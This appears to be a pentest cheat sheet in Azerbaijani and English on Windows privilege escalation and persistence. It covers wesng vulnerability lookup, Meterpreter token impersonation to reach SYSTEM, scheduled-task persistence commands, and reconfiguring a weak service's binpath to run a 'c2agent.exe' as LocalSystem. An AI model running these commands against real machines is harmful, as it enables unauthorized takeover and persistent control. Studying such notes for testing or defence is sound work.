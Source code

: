 # Windows System Analysis

İlk öncə sistem haqda məlumat almaq lazımdı cmd-də `systeminfo` yazaraq çıxan məlumatları bir fayla yazıb saxlamaq lazımdı. Daha sonra bu faylı `wesng` tooluna veririk
sistemdə mümkün olan bütün açıqlıqları detallıca gətirir və bizə təkcə bunu analiz etmək hansının işə yarayıb hansının yaramadığını yoxlamaq lazımdır.

#### Privilege Escalation

İlk öncə `getuid`[meterpreter] ilə sistemə girdiyimiz userin imtiyazlarını görə bilərik. Ən yüksək imtiyaz `NT_AUTHORİTY\SYSTEM`-dir.  
`getprivs`[meterpreter] ( `whoami /priv`[cmd] ) ilə userin sistemdə edə biləcəyi işləri görə bilərik.

`load incognito`[meterpreter] əlavələri hədəfə yükləyəcək və `load`[meterpreter] yazdıqda işlədə biləcək əlavələrin listi çıxacaq.
`list_tokens -u`[meterpreter] ilə daha yüksək imtiyazlı istifadəçiləri token ilə təqlid edə bilib bilməyəcəyini göstərir.
Əgər belə bir imtiyaz olarsa onda `impersonate_token "NT_AUTHORİTY\SYSTEM"` yazaraq o imtiyaza sahib olacaq.


## cmd commands

You can get a list of scheduled tasks with the following command:  
`schtasks /query /fo LIST /v`

To schedule a task that runs every time the system starts:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onstart` 

To schedule a task that runs when users log on:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon` 

To schedule a task that runs when the system is idle:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onidle /i {1 - 999}`

To schedule a task that runs once:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc once /st <HH:MM>`

To schedule a task that runs with system permissions:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon /ru System`

To schedule a task that runs on a remote computer:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon /s <PC_Name>`

List the services running on the host:  
`net start` 

To get the parameters for an individual server:
`sc qc VulnService`

Services can be queried individually or in a batch to determine their access control rules:
`accesschk.exe -ucqv VulnService`

Any logged-in user can modify parameters for the VulnService service. To achieve this:  
`sc config VulnPath binpath="C:\temp\c2agent.exe"`  
`sc config VulnPath obj= ".\LocalSystem" password= ""`  
